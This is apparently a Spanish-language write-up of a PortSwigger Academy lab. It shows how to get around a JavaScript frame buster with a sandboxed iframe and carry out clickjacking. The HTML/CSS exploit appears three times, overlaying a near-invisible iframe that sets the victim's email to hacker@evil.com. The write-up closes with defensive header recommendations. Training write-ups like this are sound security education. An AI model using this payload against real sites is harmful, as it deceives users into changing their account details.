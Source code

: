# Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.  
`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/5c74e9ae-8167-4a37-936a-f722cfad0fed)

## 🎯 Objetivo del laboratorio

El objetivo de este laboratorio es realizar un ataque de **Clickjacking** a una aplicación protegida por un **frame buster**. Específicamente, se debe:

- **Engañar al usuario para que cambie su dirección de correo electrónico** a una controlada por el atacante, sin que el usuario lo note.
- **Eludir la protección de frame busting** utilizando técnicas que permitan embeber la página objetivo en un `<iframe>`.
- Crear una **página maliciosa** en el servidor de exploits que simule un botón atractivo (como "Click me") superpuesto al botón real de "Update email" en la página víctima.

💡 El laboratorio se resuelve cuando la dirección de correo electrónico del usuario víctima ha sido cambiada con éxito.

---

Procedemos a autenticarnos con nuestras credenciales `wiener:peter` para inspeccionar la funcionalidad de cambio de correo:
![image](https://github.com/user-attachments/assets/eaefa3dc-9224-418a-a3bc-d6f06520eb40)

Código fuente:
![image](https://github.com/user-attachments/assets/be6cb75e-cd93-4151-8ecd-d849d158ab37)

Observamos el frame buster:
```javascript
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}

/*
📌 Explicación detallada:

1. `if (top != self)`:
   - Esta línea verifica si la página actual está siendo cargada **dentro de un frame**.
   - `top` representa el contexto de la ventana principal (el tope del stack de ventanas).
   - `self` representa el contexto del frame actual.
   - Si no son iguales, significa que la página está embebida en un `<iframe>`.

2. `window.addEventListener("DOMContentLoaded", function() { ... })`:
   - Este evento espera a que el contenido HTML de la página se haya cargado completamente, sin esperar imágenes, hojas de estilo, etc.
   - Una vez que se dispara, ejecuta la función definida.

3. `document.body.innerHTML = 'This page cannot be framed';`:
   - Esta línea reemplaza **todo el contenido del body** por un simple texto: `'This page cannot be framed'`.
   - Esto rompe el contenido original, impidiendo al atacante interactuar con los elementos legítimos (como formularios o botones).
*/

```
Objetivo del script:
- Impedir que la página se renderice correctamente si es embebida por un atacante dentro de un iframe.

Cómo lo evitamos:
- Si el `<iframe>` incluye el atributo `sandbox="allow-forms"`, la página embebida **no puede acceder a `top`**, y por lo tanto la condición `top != self` **no puede evaluarse correctamente**.
- Esto neutraliza el frame buster y permite mostrar el contenido sin activar el reemplazo.


Sabemos que se puede prellenar el valor del parámetro `email` tramitándolo por GET:
![image](https://github.com/user-attachments/assets/ea697154-6728-495b-b6a7-3fa0d3a5cad1)


Al igual que en el laboratorio anterior, accedemos al exploit server y procedemos a crean nuestra página maliciosa utilizando nuestro script:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

Hacemos click en `Store` y luego en `View exploit`:
![image](https://github.com/user-attachments/assets/f29ed268-3e30-4360-98d6-5de2afa2b9cc)

Lo primero a resaltar es que no se activa el Frame Buster, no se activa el mensaje "This page cannot be framed”.

El paso siguiente sería bajar un poco más el texto `Click me` para hacerlo coincidir con el botón `Update email`:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

![image](https://github.com/user-attachments/assets/98c13fd5-1e2a-47d7-a432-bbc0a84da673)

El siguiente paso es bajarle la opacidad:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```
![image](https://github.com/user-attachments/assets/683016b4-3991-4c79-a90a-fc8f74279392)

Con este valor de opacidad logramos que el iframe sea imperceptible, el siguiente paso es nuevamente hacer clic en `Store` y luego clic en `Deliver exploit to victim` para resolver el laboratorio:  

![image](https://github.com/user-attachments/assets/073bbae2-3e81-4aa8-b903-27162b8c6efa)

---
## ✅ Conclusiones

- Se logró ejecutar un ataque de Clickjacking a pesar de que la aplicación estaba protegida con un frame buster basado en JavaScript.
- El uso del atributo `sandbox="allow-forms"` en el iframe demostró ser efectivo para neutralizar el acceso al objeto `top`, evitando así la ejecución del script de defensa.
- La opacidad y el posicionamiento preciso fueron claves para engañar al usuario y superponer correctamente el botón malicioso.

---

## 🔐 Recomendaciones

- Implementar el header HTTP `Content-Security-Policy: frame-ancestors 'none';` o `X-Frame-Options: DENY` para prevenir cualquier intento de embebido, incluso en navegadores modernos.
- Evitar confiar únicamente en soluciones JavaScript para prevenir Clickjacking, ya que pueden ser fácilmente evadidas en contextos restringidos como iframes con sandbox.
- Considerar la validación de acciones sensibles (como cambiar un correo) con mecanismos adicionales como doble confirmación o reautenticación.

---

## 📚 Lecciones aprendidas

- Las protecciones del lado del cliente son fácilmente evadibles si no están reforzadas por mecanismos del lado del servidor.
- HTML y CSS pueden ser utilizados para construir ataques engañosos muy efectivos cuando se combinan con vulnerabilidades de diseño lógico.
- Conocer el comportamiento de los atributos de seguridad como `sandbox` permite evadir controles implementados de forma incompleta o incorrecta.
- La alineación visual y la manipulación del DOM son técnicas comunes en ataques de Clickjacking y deben ser tenidas en cuenta en cualquier análisis de seguridad front-end.





